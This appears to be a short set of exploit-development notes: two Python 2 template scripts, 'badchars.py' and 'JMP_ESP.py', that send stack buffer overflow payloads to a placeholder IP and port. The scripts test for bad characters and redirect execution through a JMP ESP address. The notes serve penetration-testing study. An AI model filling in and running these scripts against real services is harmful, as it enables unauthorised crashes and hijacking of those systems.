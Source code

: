 #### Badchars

[badchars.py]()

```python=
#!/usr/bin/python2
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = "A" * {offset} + "B" * 4 + badchars

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('{IP}',{PORT}))
        s.recv(1024)
        s.send(payload)
        s.close()

except:
        print "Error connecting to server"
        sys.exit()
```

-----

#### Find JMP ESP

[JMP_ESP.py]()

```python=
#!/usr/bin/python2
import sys, socket

payload = "A" * {offset} + "{address}"

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('{IP}',{PORT}))
        s.recv(1024)
        s.send(payload)
        s.close()

except:
        print "Error connecting to server"
        sys.exit()
```
